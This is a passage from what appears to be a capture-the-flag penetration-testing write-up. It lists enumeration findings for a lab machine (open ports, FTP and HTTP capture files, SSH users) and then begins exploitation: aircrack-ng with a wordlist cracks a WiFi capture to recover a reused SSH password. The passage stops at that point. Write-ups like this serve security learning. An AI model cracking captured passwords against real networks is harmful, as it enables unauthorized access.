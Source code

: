 11\. Found a network capture file `eg-01.cap` from user `veronica`'s FTP directory:  
``` {.python .numberLines}
ftp://veronica@192.168.92.167/eg-01.cap

```

![writeup.enumeration.steps.11.1](./screenshot09.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp    |  tcpwrapped   |
23/tcp    |  telnet?      |
69/tcp    |  caldav       |  Radicale calendar and contacts server (Python BaseHTTPServer)
80/tcp    |  http         |  Apache httpd 2.4.18 ((Ubuntu))
139/tcp   |  netbios-ssn  |  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   |  netbios-ssn  |  Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
2525/tcp  |  smtp         |  SubEtha smtpd
```
#### Files
``` {.python .numberLines}
http://192.168.92.167/exschmenuating
http://192.168.92.167/exschmenuating/012987veronica.cap
```
#### Users
``` {.python .numberLines}
ssh: eric, veronica
```

\newpage
## Phase #2: Exploitation
1\. From the storyline so far, user `eric` has reused WiFi password for SSH login. We need to extract the WiFi password from `eg-01.cap` file. We run an `aircrack` scan on the file and get SSH password:  
``` {.python .numberLines}
aircrack-ng eg-01.cap -w /usr/share/wordlists/rockyou.txt → triscuit*

```
